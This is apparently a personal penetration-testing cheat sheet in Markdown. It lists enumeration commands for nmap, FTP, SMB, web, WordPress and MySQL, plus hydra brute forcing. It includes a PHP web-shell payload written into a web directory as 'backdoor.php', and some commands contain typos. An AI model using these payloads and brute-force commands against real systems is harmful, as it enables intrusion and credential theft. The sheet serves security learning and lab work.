 # Enum

## Scanning

---
> nmap -sC -sV -oN nmap/nmap $IP

- **sC** : Run default scripts
- **sV** : Determine service version info
- **oN** : Output in Normal

---
**NOTE**

Other useful flags:

**-Pn** : No Ping

**-p-** : Scan all ports

**-F** : Fast scan(100 ports only)

**-sn** : Disable port scan(Used when scanning for active hosts)

**-n** : No dns resolution

---

## FTP Enumeration(21)

---
Try to connect to the service using `anonymous` user

> ftp $IP
> 
> username: anonymous
> 
> password: anonymous

To download files
> mget file-name

## SSH Enumeration(22)

---
> ssh $IP

## SMB Enumeration(139,445)

---
> enum4Linux -a $IP

> smbclient -L \\\\\\\\$IP
> 
> smbclinet \\\\\\\\$IP\\\\share
> 
> smbclinet \\\\\\\\$IP\\\\share -U uaername%password
>
> smbclinet \\\\\\\\$IP\\\\share -U username

Use `get` to download file
> get file-name

## Web Enumeration(80,443)

---
> dirb http://$IP wordlist -o dirb/dirb

> nikto -host $IP:port

## Wordpress Enumeration

---
> wpscan --url url --enumarate u,ap --disable-tls-check --log dir

`User bruteforce`
> wpscan --url url --disable-tls-check --usernames user-file --wordlist password-file --log dir

**u**: For users
**ap**: For plugins

## mySQL Enumeration

---
> mysql  -h $IP -u user -p --execute="show databases"

Upload a shell
> mysql  -h $IP -u user -p

> mysql> SELECT "<?php system($_GET['cmd']);?>" into outfile "file-path"

```file-path example: /var/www/https/blog/wp-content/uploads/backdoor.php```

## Random port or service

---
> netcat $IP $port


## Brute Forcing

---
> hydra -L username-file -P password-file -e nsr service://$IP
> 
> hydra -L username-file -P password-file -e nsr ftp://$IP
> 
> hydra -L username-file -P password-file -e nsr $IP ssh

- **-e** : extra checks
- **n** : null as password
- **s** : same as password(username)
- **r** : reverse as password(username)

Wordpress user bruteforce
> wpscan --url url --disable-tls-check --usernames user-file --wordlist password-file --log dir


## Password List

---
| darkc0de.txt |
----------------


## H2

### H3

**Text** BOLD

- FOR list
  
> FOR indentation

[<TEXT>](link) FOR Hyperlinks

![<TEXT>](link) FOR images

